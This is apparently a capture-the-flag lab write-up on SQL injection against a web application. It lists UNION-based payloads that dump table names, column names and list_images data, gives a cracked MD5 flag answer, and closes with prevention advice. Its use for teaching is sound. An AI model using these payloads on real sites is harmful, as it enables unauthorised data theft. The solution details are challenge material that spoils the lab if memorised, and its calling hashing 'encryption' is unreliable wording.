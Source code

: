 # SQL Injection and Cryptographic Challenge Documentation

## Overview

This document provides a comprehensive guide on identifying and exploiting SQL injection vulnerabilities within a web application. Additionally, it outlines a cryptographic challenge involving MD5 hash decryption and SHA256 re-encryption, aimed at enhancing understanding of cryptographic principles and practices.

## Vulnerability Description

SQL injection vulnerabilities occur when an attacker is able to insert or "inject" a SQL query via the input data from the client to the application. This document details various types of SQL injection attacks, including table name disclosure, boolean-based SQL injection, column name disclosure, and data extraction, highlighting the potential for unauthorized access to or manipulation of database information.

## Exploitation

### Boolean-Based SQL Injection

- **Payloads**:
- `1 OR 1=1`: Forces the application to return true for all conditions.

### Table Name Disclosure

- **Payload**: `1 UNION SELECT null, table_name FROM information_schema.tables`
- **Usefullness:** Common SQL query used in SQL injection attacks to retrieve table names in database.

### Column Name Disclosure

- **Payload**: `1 UNION SELECT table_name, column_name FROM information_schema.columns`
- **Usefullness:** Common SQL query used in SQL injection attacks to retrieve column names in tables.

### Data Extraction

- **Payload**: `1 OR 1=1 UNION SELECT title, comment from list_images`
- **Context**: This payload is used to extract `title` and `comment` from the `list_images` table.

## Cryptographic Challenge

- **Challenge**: Decrypt an MD5 hash and then re-encrypt the plaintext using SHA256.
- **MD5 Hash**: `1928e8083cf461a51303633093573c46`
- **Decrypted Text**: "albatroz"
- **Instructions**: Decrypt the given MD5 hash to plaintext, convert the plaintext to lowercase, and then encrypt it using SHA256 to reveal a flag.

## Additional Information

- The "list_images" table contains the following columns: `id`, `url`, `title`, `comment`.
- The cryptographic challenge provides a unique opportunity to apply decryption and encryption techniques to retrieve a hidden flag.

## Prevention

- **Parameterized Queries**: Use parameterized queries to prevent SQL injection, as they ensure that the input is treated as a data value rather than part of the SQL command.
- **Input Validation**: Implement strict input validation checks to reject suspicious or malformed data.
- **Use of Prepared Statements**: With prepared statements, the SQL query is defined separately from its parameters, minimizing the risk of injection.
- **Employ Stronger Hashing Algorithms**: Replace MD5 with more secure hashing algorithms like SHA-256 to enhance cryptographic security.
- **Regular Security Audits**: Conduct thorough security audits and penetration testing to identify and mitigate vulnerabilities.

## Additional Resources

- [OWASP SQL Injection Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [MD5 Hash Generator and Decrypt](https://md5decrypt.net/en/)
- [OWASP Secure Coding Practices](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/)

This documentation aims to raise awareness about the critical nature of SQL injection vulnerabilities and the importance of cryptographic security in modern web applications. By understanding and applying the outlined prevention techniques, developers and security professionals can significantly enhance the security posture of their applications.
